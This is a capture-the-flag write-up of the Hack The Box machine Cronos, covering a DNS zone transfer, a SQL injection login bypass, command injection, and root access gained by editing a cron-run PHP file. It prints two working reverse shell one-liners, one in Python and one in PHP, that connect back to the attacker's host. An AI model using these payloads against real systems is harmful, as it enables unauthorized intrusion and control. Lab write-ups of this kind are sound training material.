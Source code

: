 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1).png>)

We see three ports open. On port 80, we see the following:&#x20;

![](<../../.gitbook/assets/image (333) (1) (1).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (327) (1).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (338) (1) (1) (1).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (367) (1) (1) (1) (1).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (332) (1) (1).png>)

I was then on this page:

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (359) (1) (1) (1) (1).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

&#x20;

![](<../../.gitbook/assets/image (361) (1) (1) (1) (1) (1).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (363) (1) (1) (1) (1) (1) (1).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (357) (1) (1) (1) (1).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (358) (1) (1) (1).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (364) (1) (1) (1) (1) (1) (1) (1).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (356) (1) (1).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (365) (1) (1) (1) (1).png>)
